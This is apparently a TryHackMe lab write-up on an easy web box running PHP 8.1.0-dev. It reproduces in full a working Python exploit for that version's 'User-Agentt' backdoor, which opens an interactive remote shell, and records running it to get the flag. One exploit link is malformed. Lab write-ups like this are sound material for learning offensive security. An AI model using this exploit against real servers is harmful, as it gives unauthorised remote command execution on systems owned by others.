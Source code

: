 ## Info
- Platform: TryHackMe  
- Difficulty: Easy  

---

## Enumeration
<img width="1919" height="830" alt="Screenshot_2025-09-10_06-34-15" src="https://github.com/user-attachments/assets/43c74208-54e7-4fca-8b76-50665d523637" />

- Most sidebar links (Login, Register, Forgot Password, Charts, Tables) were dummy (`#`).  
- Only `blank.html` and `404.html` worked.

<img width="1919" height="470" alt="Screenshot_2025-09-10_06-46-58" src="https://github.com/user-attachments/assets/aa09a066-303e-42c2-9e56-f9767e0fca13" />

- In the **Network tab**, the server revealed it was running: PHP/8.1.0-dev

---

## Exploitation
- Searched Exploit-DB for *PHP 8.1.0-dev*.  
- Found: [PHP 8.1.0-dev – 'User-Agentt' RCE]([https://www.exploit-db.com/exploits/49446](https://www.exploit-db.com/exploits/49933)).
```bash
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```            
- Opened `nano` and created a new file `agent.py`.  
- Pasted the exploit code inside and saved it.

<img width="698" height="240" alt="Screenshot_2025-09-10_06-53-17" src="https://github.com/user-attachments/assets/8adba7af-ebc3-4104-a75a-28dfb63ff2c9" />

- Executed the script.

---

## Result
<img width="602" height="64" alt="2" src="https://github.com/user-attachments/assets/a01a3a4e-69e6-4ee8-951c-5fd1d382fc42" />

- Flag found: `[FLAG FOUND]`
